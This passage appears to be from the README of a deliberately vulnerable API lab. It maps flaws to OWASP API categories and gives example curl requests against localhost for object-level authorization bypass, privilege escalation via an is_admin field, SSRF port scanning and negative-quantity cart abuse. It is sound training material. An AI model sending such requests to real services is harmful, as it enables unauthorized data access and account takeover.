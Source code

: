 ### API9: Improper Inventory Management
- **Location**: Product Service
- **Issues**:
  - Deleted products still accessible
  - Soft deletes exposed via parameters
  - No proper data lifecycle management

### API10: Unsafe Consumption of APIs
- **Location**: External API integration
- **Issues**:
  - Trusts external API responses blindly
  - No validation of third-party data
  - Exposes internal system information

## Testing the Vulnerabilities

### Example Exploits

1. **BOLA - Access other users' data**:
\`\`\`bash
curl http://localhost:8000/api/users/1
curl http://localhost:8000/api/orders/user/1
\`\`\`

2. **Privilege Escalation**:
\`\`\`bash
curl -X PUT http://localhost:8000/api/users/2 \
  -H "Content-Type: application/json" \
  -d '{"is_admin": true}'
\`\`\`

3. **SSRF - Internal network scanning**:
\`\`\`bash
curl -X POST http://localhost:5005/upload/scan \
  -H "Content-Type: application/json" \
  -d '{"target": "localhost", "port": 5432}'
\`\`\`

4. **Business Logic Bypass**:
\`\`\`bash
# Add negative quantities to cart
curl -X POST http://localhost:8000/api/cart/cart/1/add \
  -H "Content-Type: application/json" \
  -d '{"product_id": 1, "quantity": -10}'
\`\`\`

## Security Testing Tools

Recommended tools for testing:
- **Burp Suite** - Web application security testing
- **OWASP ZAP** - Automated security scanning
- **Postman** - API testing and exploitation
- **curl** - Command-line API testing
